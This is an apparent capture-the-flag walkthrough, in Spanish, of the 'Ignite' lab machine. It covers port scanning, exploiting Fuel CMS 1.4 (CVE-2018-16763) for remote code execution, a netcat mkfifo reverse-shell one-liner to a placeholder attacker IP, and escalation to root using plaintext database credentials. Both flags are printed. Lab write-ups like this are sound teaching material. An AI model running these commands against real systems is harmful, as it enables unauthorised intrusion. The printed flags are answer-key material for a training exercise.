










# Ignite CTF


---

## Fase 1 — Enumeración

### Fase 1.1 — Nmap Port Scan

**Comando ejecutado:**
```bash
# [MÁQUINA ATACANTE]
nmap -sC -sV -oN ignite.nmap <TARGET_IP>
```

**Puertos descubiertos:**

| Puerto | Servicio | Versión |
|--------|----------|---------|
| 80/tcp | HTTP | Apache 2.4.18 Ubuntu |

**Hallazgos:**
- `robots.txt` → `/fuel/` disallowed 🔴
- Título: **Welcome to FUEL CMS**
- Solo puerto 80 → único vector de ataque



---

### Fase 1.2 — Enumeración Web

**URL visitada:**
```
http://<TARGET_IP>
```

**Hallazgos:**
- Fuel CMS versión **1.4** en producción sin configurar
- Panel admin accesible en `http://<TARGET_IP>/fuel`
- Credenciales por defecto expuestas: `admin:admin` 🔴
- Referencia a `fuel/application/config/database.php` → vector de PrivEsc



---

### Fase 1.3 — Búsqueda de Exploit

**Comando ejecutado:**
```bash
# [MÁQUINA ATACANTE]
searchsploit fuel cms 1.4
```

**Exploits encontrados:**

| Exploit | Path |
|---------|------|
| Fuel CMS 1.4.1 - RCE (1) | linux/webapps/47138.py |
| Fuel CMS 1.4.1 - RCE (3) | php/webapps/50477.py ✅ |
| Fuel CMS 1.4.13 - SQL Injection | php/webapps/50523.txt |

**Exploit seleccionado:** `50477.py` (Python 3) — CVE-2018-16763



---

## Fase 2 — Foothold

### Fase 2.1 — Preparar el Exploit

**Comando ejecutado:**
```bash
# [MÁQUINA ATACANTE]
searchsploit -m php/webapps/50477.py
cat 50477.py
```

**Hallazgos:**
- Exploit Python 3 → CVE-2018-16763
- Endpoint vulnerable: `/fuel/pages/select/?filter=`
- RCE pre-autenticación → no requiere credenciales



---

### Fase 2.2 — Ejecución del Exploit RCE

**Comando ejecutado:**
```bash
# [MÁQUINA ATACANTE]
python3 50477.py -u http://<TARGET_IP>
# Enter Command $ whoami
```

**Hallazgos:**
- `[+]Connecting...` → conexión exitosa
- `whoami` → `www-data` 🔴 RCE confirmado



---

### Fase 2.3 — Reverse Shell

**Paso 1 — Listener en Kali:**
```bash
# [MÁQUINA ATACANTE]
nc -lvnp 4444
```

**Paso 2 — En el exploit:**
```bash
# [EXPLOIT - Enter Command $]
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER_IP> 4444 >/tmp/f
```

**Hallazgos:**
- Reverse shell recibida como `www-data`



---

### Fase 2.4 — Estabilización y User Flag

**Comando ejecutado:**
```bash
# [MÁQUINA OBJETIVO]
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
cat /home/www-data/flag.txt
```

**User Flag:**
```
6470e394cbf6dab6a91682cc8585059b
```



---

## Fase 3 — Escalada de Privilegios

### Fase 3.1 — Descubrimiento de Credenciales en database.php

**Comando ejecutado:**
```bash
# [MÁQUINA OBJETIVO]
cat /var/www/html/fuel/application/config/database.php
```

**Hallazgos:**
- Credenciales de base de datos en texto claro 🔴
- `username` → `root`
- `password` → `mememe`



---

### Fase 3.2 — Credenciales Root en Texto Claro

**Hallazgos críticos:**

| Campo | Valor |
|-------|-------|
| hostname | localhost |
| username | root |
| **password** | **mememe** 🔴 |
| database | fuel_schema |



---

### Fase 3.3 — Su a Root y Root Flag

**Comando ejecutado:**
```bash
# [MÁQUINA OBJETIVO]
su root
# Password: mememe
whoami
cat /root/root.txt
```

**Root Flag:**
```
b9bbcb33e11b80be759c4e844862482d
```


